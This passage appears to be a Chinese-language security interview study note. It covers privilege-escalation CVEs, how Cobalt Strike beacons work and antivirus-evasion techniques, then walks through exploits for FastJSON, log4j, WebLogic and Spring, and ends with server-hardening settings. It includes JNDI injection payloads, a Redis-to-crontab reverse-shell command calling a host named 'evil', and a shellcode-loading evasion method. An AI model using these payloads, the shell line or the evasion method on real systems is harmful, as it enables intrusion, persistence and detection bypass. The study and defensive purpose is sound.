xx.jpg/xx.php，不全,请小伙伴们在评论处不吝补充，谢谢！
```

** 权限提升

*Q：内网常见的提权漏洞有哪些？*
A：
	MS14-058windows内核溢出漏洞提权限
	MS14-068伪造域管的TGT票据授予票据
	MS15-051本地内核提权
	MS16-032wimc本地溢出
	MS17-010永恒之蓝SMB漏洞
	CVE-2019-0708 Windows远程桌面服务漏洞
	CVE-2019-12750 Symantec终端保护本地提权漏洞
	CVE-2021-4034 polkit 工具集的本地权限提升漏洞
	CVE-2022-0847dirty pipe内核提权漏洞

** 权限维持

*Q：熟悉的C2工具原理？*
*A：* 
	teamserver为一个团队服务器，众多cs客户端连上它，以进行协同工作，里面有一个内置聊天室哦；
	cobaltstrike为客户端工具，启动时需指定要连接的teamserver；
	在cobaltstrike工具上，生成一个木马（支持多种类型，如ps1、exe、java、dll、python等15种类型），扔到被控机上运行。（体现后渗透）
	该木马定期给teamserver发送心跳，证明我还活着（默认一分钟一次，可修改）！同时根据teamserver回应的不同，判断teamserver是否有新任务。
	如有，则再次请求任务明细，在被控机上执行后，返回回显给teamserver。
![](../attaches/1000.jpeg)
[Cobalt Strike Beacon原理浅析_腾讯新闻 (qq.com)](https://new.qq.com/rain/a/20200306A056Z200)

** 免杀

*Q：常见的免杀方法？*
A：修改特征码（字符串检测、某区域内存在病毒库中的特征）、花指令（不可执行：多字节指令、破坏堆栈平衡（IDA递归下降）；可执行：函数调用（add esp ret）、混淆特征码（jmp label --> push label / ret））、加壳（壳本身也有特征码）、内存免杀（VirtualAlloc直接将shellcode加载进内存）、二次编译。

*Q：介绍一种免杀方法？*
A：将shellcode保存成字符串，木马请求远程shellcode字符串，将字符串解析为十六进制串，调用kernel32中的VirtualAlloc函数创建内存，通过ntdll.dll中的RtlCopyMemory将shellcode拷贝到内存中，通过syscall执行，免去了文件落地。

** HTTP

*Q：HTTP请求头注入？*
A：开发人员为了验证客户端HTTP Header（比如常用的Cookie验证等）或者通过HTTP Header头信息获取客户端的一些信息（例如：User-Agent、Accept字段等），会对客户端HTTP Header 进行获取并使用SQL语句进行处理，如果此时没有足够的安全考虑，就可能导致基于HTTP Header的注入漏洞。

*Q：常见的HTTP请求头注入有哪些？*
A：Cookie（获取该字段并验证客户端身份）、User-Agent（记录客户端版本操作系统或根据该字段推动不同的网页）、Referer（统计网站的点击量）、XFF（X-Forwarded-For记录客户端真实IP）

*Q：HTTP Keep-Alive机制？*
A：`Connection: keep-alive/close`开启/关闭保持连接（长连接）。

** FastJSON反序列化漏洞

@type允许传入任意类名，并通过反序列化函数将json反序列化为类，com.sun.rowset.JdbcRowSetImpl允许rmi和idap协议，搭建二者之一的服务器和http服务器存放编译好的Java代码，即可在攻击时执行构造的代码。

```json
{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://localhost:1099/Exploit","autoCommit":true}
```

二代加入checkAutoType函数对传入的类名进行黑名单过滤并限制长度，可以通过非黑名单函数`org.apache.ibatis.datasource.jndi.JndiDataSourceFactory`绕过；还可以绕过loadClass函数开头`L`结尾`;`被去掉然后正常执行。

三代嵌套反序列化，先做一个不在黑名单中的，使cache为True之后在load旧类时判断条件有`TypeUtils.getClassFromMapping(typeName) ！=null`后面直接从mapping中提出类并最终返回，没有通过黑名单测试。

** log4j

resolveVariable方法中resolver.lookup调用了lookup函数导致命令执行，通过log.info的方法传递进入的payload被执行`${jndi:ldap(rmi/dns)://127.0.0.1/exp}`

** weblogic

*** SSRF（CVE-2014-4210）

`http://192.168.199.155:7001/uddiexplorer/`参数oprator应该执行了ping命令，返回值显示其后的地址是否可达，构造radis命令，将弹shell指令存入corntab。

```shell
set 1 "\n\n\n\n0-59 0-23 1-31 1-12 0-6 root bash -c 'sh -i >& /dev/tcp/evil/21 0>&1'\n\n\n\n"
config set dir /etc/
config set dbfilename crontab
save
```

`\r\n`是`%0d%0a`

*** 远程代码执行（CVE-2023-21839）

漏洞的触发点在ForeignOpaqueReference.getReferent()

ForeignOpaqueReference继承自OpaqueReference，前面说过，当远程对象继承自OpaqueReference时，客户端在对该对象进行JNDI查找并获取的时候，服务器端实际上是通过调用远程对象的getReferent()方法来获取该对象的实际引用。所以，如果远程绑定了ForeignOpaqueReference对象，在lookup查询该对象时，就会调用ForeignOpaqueReference.getReferent()，所以这里我们只要控制var4与this.remoteJNDIName就能造成jndi注入。
var4的话，只要this.jndiEnvironment有值，就用this.jndiEnvironment的值对InitialContext进行初始化，this.jndiEnvironment也可以使用反射的方式进行赋值。

*** wls-wsat XMLDecoder反序列化（CVE-2017-10271）

weblogic中的WLS组件接收到SOAP格式的请求后，未对解析xml后的类，参数等进行处理，一系列传入最后执行了`xmlDecoder.readObject`触发调用了类中的方法，产生漏洞。
跟进`readUTF`，在这里进行了`xmlDecoder.readObject`触发了`xmlDecoder`的反序列化，执行了`ProcessBuilder.start()`

** spring

*** spring-data-XMLBean XXE（CVE-2018-1259）

这个XXE漏洞本质是因`DefaultXMLFactoriesConfig.java`配置不当而导致的，`Spring Data Commons`的某些版本中恰好使用了含有漏洞的`XMLBean`组件。XMLBeam不会限制XML外部实体应用，导致未经身份验证的远程恶意用户可以针对Spring Data的请求绑定特定的参数，访问系统上的任意文件。

*** Spring Cloud Gateway Actuator API SpEL Code Injection （CVE-2022-22947）

1、首先，修改GET /actuator请求，确定actuator端口已经开启
2、修改get请求，获取路由信息GET /actuator/gateway/routes/:
3、构造一个post请求包，POST /actuator/gateway/routes/test 添加一个包含恶意SpEL表达式的路由
4、刷新路由，POST /actuator/gateway/refresh
5、获取路由信息GET /actuator/gateway/routes/，新增路由test成功：
6、构造get请求，查看当前路由信息，GET /actuator/gateway/routes/test,检索结果命令执行结果，当前用户为root 
7、最后，删除我们前面构造的路由，DELETE /actuator/gateway/routes/test

ConfigurationService->normalize->ShortcutConfigurable.getValue()->expression对spEL表达式进行处理

1.如果不需要Gateway actuator endpoint，可通过 management.endpoint.gateway.enabled: false 禁用它。

** 安全配置

==隐藏自身-隐藏指纹-选用安全版本-安全配置-权限控制-记录日志==

*** windows

密码策略：密码必须符合复杂性要求、密码长度最小值、密码使用期限、强制密码历史、用可还原的加密存储密码（禁用）、最小密码长度审核
账户锁定策略：账户锁定时间、账户锁定阈值（次数）、重置账户锁定计时器
本地策略-安全选项：管理员账户状态、禁用Microsoft账户
交互式登录：不显示用户名、不活动限制、锁定会话时显示用户信息
用户账户控制：标准用户提升行为（自动拒绝）、管理员提升权限提示
高级安全审计配置：审核凭据验证（成功和失败）、审核应用程序组管理、审核安全组管理、审核用户账户管理、审核进程创建（s）、审核账户锁定（f）、审核注销（s）、审核登录（s/f）、审核其它登录/注销时间（s/f）、审核特殊登录（s）、审核详细的文件共享（f）、审核文件共享、审核其他对象访问时间、审核可移动存储、审核敏感权限使用

*** linux

设置强密码策略`/etc/pam.d/system-auth`、限制用户登陆时间`/etc/profile`、关闭多余端口和服务、禁用sshroot登录、禁止登录vsftpd、限制最大传输速率、改默认端口、`iptables -A INPUT -p tcp --dport 23 -j DROP`、`iptables -A INPUT -p icmp --icmp-type echo-request -j DROP`、只允许内部ssh连接

*** PHP

打开php安全模式`safe_mode=on`
用户组安全：`safe_mode_gid=off`（如果需要文件操作）
设定执行程序主目录：`safe_mode_exec_dir = /var/www/html`
安全模式包含文件：`safe_mode_include_dir = /var/www/html`
控制PHP脚本能访问的目录：`open_basedir=/var/www/html`
关闭危险函数：`disable_function=chdir, chroot, dir, getcwd, opendir, readdir, scandir, fopen, unlink, delete, copy, mkdir, rmdir, rename, file, file_get_contents, fputs, fwrite, chgrp,chmod, chow`
关闭php版本信息在http头中的泄露：`expose_php=off`
关闭注册全局变量：`register_globals=Off`
关闭错误信息：`display_errors = Off`、`error_reporting = E_WARNING & E_ERROR`
打开错误日志：`log_errors = On`

*** apache

删除默认网站和页面。
配置https.conf禁止目录浏览：`Options -Indexes FollowSymLinks`
配置默认文档：`DirectoryIndex index.html`
合理配置apache运行账户：

```xml
<code>User apache
Group apache
</code>
```
合理控制apache账户对磁盘的写入和执行权限：取消写除上传目录、非网站目录不给权限
取消运行账户对sh等的执行权限
取消上传目录对php的执行权限

```
<Directory "/var/www/html/aaa">    
    <FilesMatch ".(php|php5)$">    
        Deny from all    
    </FilesMatch>
</Directory>
```

限制文件类型访问
关闭对htaccess的支持

```
<code>AllowOverride None
</code>
```

htaccess（灵活分配访问策略；目录多多难以配置、容易覆盖、易被非授权用户拿到）定制默认文档、定制错误页面、控制访问文件和目录的级别、防止列目录
```xml
<code>Options -Index
</code>
```

*** nginx

隐藏不必要信息：`server_tokens off`、`proxy_hide_header <command>`（X-Powered-By）
禁用非必要方法：

```nginx
if ($request_method !~ ^(GET|HEAD|POST)$ ) {
    return 444;
}
```

配置合理的响应头：
```nginx
add_header Strict-Transport-Security "max-age=31536000";
add_header X-Frame-Options deny;
add_header X-Content-Type-Options nosniff;
add_header Content-Security-Policy "default-src 'self'; script-src 'self' 'unsafe-inline' 'unsafe-eval' https://a.disquscdn.com; img-src 'self' data: https://www.google-analytics.com; style-src 'self' 'unsafe-inline'; frame-src https://disqus.com";
```

*Strict-Transport-Security（简称为 HSTS）*可以告诉浏览器，在指定的 max-age 内，始终通过 HTTPS 访问我的博客。即使用户自己输入 HTTP 的地址，或者点击了 HTTP 链接，浏览器也会在本地替换为 HTTPS 再发送请求。另外由于我的证书不支持多域名，我没有加上 includeSubDomains。
*X-Frame-Options* 用来指定此网页是否允许被 iframe 嵌套，deny 就是不允许任何嵌套发生。
*X-Content-Type-Options* 用来指定浏览器对未指定或错误指定 Content-Type 资源真正类型的猜测行为，nosniff 表示不允许任何猜测。
*Content-Security-Policy（简称为 CSP）*用来指定页面可以加载哪些资源，主要目的是减少 XSS 的发生。我允许了来自本站、disquscdn 的外链 JS，还允许内联 JS，以及在 JS 中使用 eval；允许来自本站和 google 统计的图片，以及内联图片（Data URI 形式）；允许本站外链 CSS 以及内联 CSS；允许 iframe 加载来自 disqus 的页面。对于其他未指定的资源，都会走默认规则 self，也就是只允许加载本站的。